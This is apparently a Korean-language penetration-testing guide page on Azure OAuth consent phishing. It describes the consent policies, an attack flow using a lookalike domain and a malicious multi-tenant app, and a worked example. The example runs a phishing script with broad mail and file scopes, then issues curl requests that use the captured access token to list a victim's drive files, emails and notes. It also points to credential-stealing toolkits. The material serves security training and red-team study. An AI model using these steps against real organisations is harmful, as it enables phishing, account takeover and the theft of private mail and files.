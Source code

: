 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure Applications**는 사용자가 애플리케이션에 동의할 때 사용할 수 있는 권한으로 구성됩니다(예: 디렉토리 열거, 파일 접근 또는 기타 작업 수행). 애플리케이션은 사용자를 대신하여 작동하므로, 애플리케이션이 관리 권한을 요청하더라도 **사용자가 해당 권한을 가지고 있지 않으면**, 애플리케이션은 **관리 작업을 수행할 수 없습니다**.

### App consent permissions

기본적으로 모든 **사용자는 앱에 동의할 수 있습니다**, 하지만 이는 사용자가 **선택된 권한에 대해 검증된 게시자의 앱에만 동의할 수 있도록** 구성할 수 있으며, 심지어 **사용자가 애플리케이션에 동의할 권한을 제거**할 수도 있습니다.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

사용자가 동의할 수 없는 경우, `GA`, `Application Administrator` 또는 `Cloud Application` `Administrator`와 같은 **관리자**가 사용자가 사용할 수 있는 **애플리케이션에 동의할 수 있습니다**.

또한, 사용자가 **저위험** 권한을 사용하는 앱에만 동의할 수 있는 경우, 이러한 권한은 기본적으로 **openid**, **profile**, **email**, **User.Read** 및 **offline_access**이며, 이 목록에 **더 많은 권한을 추가**할 수 있습니다.

사용자가 모든 앱에 동의할 수 있다면, 모든 앱에 동의할 수 있습니다.

### 2 Types of attacks

- **Unauthenticated**: 외부 계정에서 **저위험 권한** `User.Read` 및 `User.ReadBasic.All`을 가진 애플리케이션을 생성하고 사용자를 피싱하면 디렉토리 정보에 접근할 수 있습니다.
- 이는 피싱된 사용자가 **외부 테넌트의 OAuth 앱을 수락할 수 있어야** 합니다.
- 피싱된 사용자가 **모든 권한을 가진 어떤 앱에도 동의할 수 있는 관리자**인 경우, 애플리케이션은 **특권 권한을 요청할 수도 있습니다**.
- **Authenticated**: 충분한 권한을 가진 주체를 손상시킨 후, **계정 내에 애플리케이션을 생성하고** 일부 **특권** 사용자를 피싱하여 특권 OAuth 권한을 수락할 수 있습니다.
- 이 경우 이미 디렉토리 정보를 접근할 수 있으므로, 권한 `User.ReadBasic.All`은 더 이상 흥미롭지 않습니다.
- **관리자가 부여해야 하는 권한**에 관심이 있을 가능성이 높습니다. 일반 사용자는 OAuth 앱에 어떤 권한도 부여할 수 없기 때문에, **오직 그런 사용자만 피싱해야** 합니다(어떤 역할/권한이 이 특권을 부여하는지에 대한 내용은 나중에 설명).

### Users are allowed to consent

테넌트 내부의 사용자로부터 이 명령을 실행해야 하며, 외부에서 테넌트의 이 구성을 찾을 수 없습니다. 다음 CLI는 사용자의 권한을 이해하는 데 도움이 될 수 있습니다:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- 사용자는 모든 앱에 동의할 수 있습니다: **`permissionGrantPoliciesAssigned`** 안에 `ManagePermissionGrantsForSelf.microsoft-user-default-legacy`가 있으면 사용자는 모든 애플리케이션을 수락할 수 있습니다.
- 사용자는 검증된 게시자 또는 귀하의 조직의 앱에 동의할 수 있지만, 선택한 권한에 대해서만 가능합니다: **`permissionGrantPoliciesAssigned`** 안에 `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`가 있으면 사용자는 모든 애플리케이션을 수락할 수 있습니다.
- **사용자 동의 비활성화**: **`permissionGrantPoliciesAssigned`** 안에 `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat`와 `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`만 있으면 사용자는 어떤 것도 동의할 수 없습니다.

주석이 달린 각 정책의 의미를 찾는 것은 가능합니다:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **애플리케이션 관리자**

새로운 애플리케이션을 수락할 수 있는 애플리케이션 관리자라고 간주되는 사용자를 확인하십시오:
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **공격 흐름 개요**

이 공격은 일반 회사를 목표로 하는 여러 단계를 포함합니다. 다음은 공격이 어떻게 전개될 수 있는지에 대한 설명입니다:

1. **도메인 등록 및 애플리케이션 호스팅**: 공격자는 신뢰할 수 있는 사이트를 닮은 도메인을 등록합니다. 예를 들어, "safedomainlogin.com"과 같은 도메인입니다. 이 도메인 아래에 악성 애플리케이션을 호스팅하기 위해 서브도메인(예: "companyname.safedomainlogin.com")이 생성됩니다. 이 애플리케이션은 인증 코드를 캡처하고 액세스 토큰을 요청하도록 설계되었습니다.
2. **Azure AD에서 애플리케이션 등록**: 공격자는 자신의 Azure AD 테넌트에 다중 테넌트 애플리케이션을 등록하고, 이를 목표 회사의 이름으로 지정하여 합법적으로 보이게 합니다. 그들은 애플리케이션의 리디렉션 URL을 악성 애플리케이션을 호스팅하는 서브도메인으로 설정합니다.
3. **권한 설정**: 공격자는 애플리케이션에 다양한 API 권한(예: `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)을 설정합니다. 이러한 권한은 사용자가 부여하면 공격자가 사용자를 대신하여 민감한 정보를 추출할 수 있게 합니다.
4. **악성 링크 배포**: 공격자는 악성 애플리케이션의 클라이언트 ID를 포함하는 링크를 작성하고 이를 목표 사용자와 공유하여 그들이 동의를 부여하도록 속입니다.

## 예시 공격

1. **새 애플리케이션**을 등록합니다. 공격받는 디렉토리의 사용자를 사용하는 경우 현재 디렉토리 전용으로 등록할 수 있으며, 외부 공격인 경우 모든 디렉토리에 대해 등록할 수 있습니다(다음 이미지와 같이).
1. 또한 **리디렉션 URI**를 토큰을 얻기 위해 코드를 받을 예상 URL로 설정합니다(`http://localhost:8000/callback` 기본값).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. 그런 다음 애플리케이션 비밀을 생성합니다:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. API 권한을 선택합니다(예: `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`).

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **권한을 요청하는 웹 페이지 (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**를 실행합니다:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **URL을 피해자에게 전송하기**
1. 이 경우 `http://localhost:8000`
6. **피해자는** **프롬프트를 수락해야 합니다:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. **요청된 권한에 접근하기 위해 액세스 토큰을 사용하세요**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## 기타 도구

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)에서 설정 방법을 확인하세요.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## 포스트 익스플로잇

### 피싱 포스트 익스플로잇

요청된 권한에 따라 **테넌트의 다양한 데이터에 접근할 수 있을 수 있습니다** (사용자 목록, 그룹... 또는 설정 수정) 및 **사용자 정보** (파일, 노트, 이메일...). 그런 다음, 이러한 권한을 사용하여 해당 작업을 수행할 수 있습니다.

### 애플리케이션 포스트 익스플로잇

페이지의 애플리케이션 및 서비스 주체 섹션을 확인하세요:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## 참고자료

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
